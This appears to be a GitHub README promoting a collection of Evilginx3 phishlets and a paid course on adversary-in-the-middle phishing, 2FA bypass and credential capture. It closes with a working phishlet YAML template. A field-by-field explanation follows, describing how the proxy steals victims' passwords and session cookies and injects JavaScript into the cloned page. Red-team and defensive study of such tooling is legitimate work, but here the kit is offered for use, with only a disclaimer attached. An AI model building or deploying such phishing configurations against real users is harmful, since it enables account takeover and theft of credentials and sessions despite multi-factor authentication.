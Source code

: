   ## Updated Evilginx3 Phishlets
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications

**Got any requests or questions?** Feel free to message me @ www.SimplerHacking.com


## Join the private Evilginx Discord Server!
![Discord Members](https://img.shields.io/badge/Discord%20Members-1309-blue)

[![Discord](https://img.shields.io/badge/Discord-7289DA?style=for-the-badge&logo=discord&logoColor=white)](https://discord.gg/3pdawMkP)

# Our New Evilginx3 Phishing Masterclass Has Been Released!
## Download the course: www.simplerhacking.com/courses/evilginx-course
Learn to bypass 2FA with the latest version of Evilginx3, send verified campaigns, capture credentials, record & analyze campaign results.

### Course Content Preview:

[![Evilcover2](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/d05fe6c1-9fdd-454c-8a96-689a880a8ddf)](https://www.simplerhacking.com/courses/evilginx-course)

![Screenshot (2501)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/1ae29b71-6d8b-4f28-9a12-edde24ba3060)

![Screenshot (2500)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/93e2aa6f-4387-41b7-a612-0ac8d0152942)


https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/fa7dcbf0-13cb-4cfc-b7a8-f944d824b0c2

https://github.com/simplerhacking/Evilginx-Course/assets/141525149/3bf788e5-d7df-48fb-9820-00520185cfd7



![SMTP-or-API-Email-Sending Evilginx3 ad](https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/6b5e4061-978f-488a-aa0e-53cb505f1022)


- **Affordable Pricing:** I've made the price of the course afforable for anyone interesting in learning about Evilginx & MITM Attacks.
- **Great for all skill levels:** The course is designed with clear explanations that make even complex topics easy to understand.
- **Practical Application:** Through hands-on labs & real customizeable templates, We help you apply what you learn in real-world scenarios.
- **From Basics to Advanced:** This course offers a smooth learning curve, foundation before diving into advanced features of Evilginx3.
- **Custom Phishlets files & Resources:** Personalized phishlet files, Q&A support & resources bridge the gap between theory & practice


## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
Send us an email to info@simplerhacking.com or message directly on our website www.simplerhacking.com

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use. 

##

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

## Follow our academic blog for more insights: https://medium.com/@simplerhacking

![Subscribe](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/05768590-0ad4-47d8-bee0-5e940b71a00b)


### Enroll in our free training lessons & webinars: www.simplerhacking.com/courses/evilginx-webinar

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.
